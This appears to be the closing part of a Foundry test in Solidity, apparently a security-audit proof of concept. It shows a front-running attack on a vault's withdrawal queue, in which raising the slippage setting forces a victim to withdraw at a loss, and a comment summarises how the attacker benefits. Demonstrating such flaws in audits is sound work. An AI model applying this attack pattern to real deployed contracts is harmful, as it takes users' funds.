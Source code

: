 ```solidity
        // === PART 2: DEMONSTRATE FORCED LOSS ATTACK (Loose Slippage) ===
        // Admin increases slippage to "help" victim1, but this forces them to accept losses
        
        vm.startPrank(STRATEGIST.addr);
        sut.updateWithdrawMaxLoss(200); // 2% slippage tolerance (allows 1% strategy loss)
        vm.stopPrank();

        // Now victim1 CAN withdraw but will lose money due to strategy interaction
        uint256 victim1BalanceBefore = assetMock.balanceOf(victim1);
        
        vm.startPrank(victim1);
        sut.withdraw(victim1TokenId); // Succeeds but with forced losses
        vm.stopPrank();
        
        uint256 victim1BalanceAfter = assetMock.balanceOf(victim1);
        uint256 victim1Received = victim1BalanceAfter - victim1BalanceBefore;
        uint256 victim1Loss = 200e18 - victim1Received;
        
        // Verify the attack succeeded - victim1 was forced to accept losses
        assertTrue(victim1Loss > 0, "Victim1 should have incurred losses");
        assertTrue(victim1Loss >= (200e18 * 70) / 10000, "Loss should be ~0.75% (strategy loss on portion)");
        
        // ATTACK SUMMARY:
        // 1. Attacker front-ran victim's withdrawal by consuming idle funds
        // 2. Forced victim into lossy strategy withdrawal 
        // 3. With strict slippage: Victim funds TRAPPED (DoS)
        // 4. With loose slippage: Victim FORCED to accept losses
        // 5. Attacker benefits either way - gets clean withdrawal while harming others
    }
}    
```